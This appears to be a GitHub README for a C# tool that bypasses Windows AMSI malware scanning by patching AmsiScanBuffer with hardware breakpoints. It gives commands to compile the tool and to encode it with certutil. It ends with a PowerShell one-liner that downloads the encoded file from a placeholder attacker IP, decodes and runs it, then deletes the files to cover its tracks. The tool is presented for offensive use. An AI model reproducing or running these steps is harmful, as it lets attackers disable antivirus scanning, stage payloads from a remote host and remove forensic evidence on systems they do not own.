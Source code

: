 # Overview 

## This repo contains a C# implementation to patch AmsiScanBuffer utilizing hardware breakpoints. I used this code as a reference but optimized it and added comments for the code, https://gist.github.com/susMdT/360c64c842583f8732cc1c98a60bfd9e.

## How to compile
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:test.exe .\am_s.cs
```

## Encode the binary into a text file 
```powershell
certutil -encode test.exe test.txt
```
## Execute the binary using Microsoft signed binaries
```powershell
Start-Process -FilePath curl -ArgumentList "http://<IP>/test.txt -o $($pwd.Path)\test.txt" -Wait; certutil -decode "$($pwd.Path)\test.txt" "$($pwd.Path)\test.exe"; Start-Process -FilePath "$($pwd.Path)\test.exe" -Wait; Remove-Item -Path "$($pwd.Path)\test.exe"; Remove-Item -Path "$($pwd.Path)\test.txt"
```
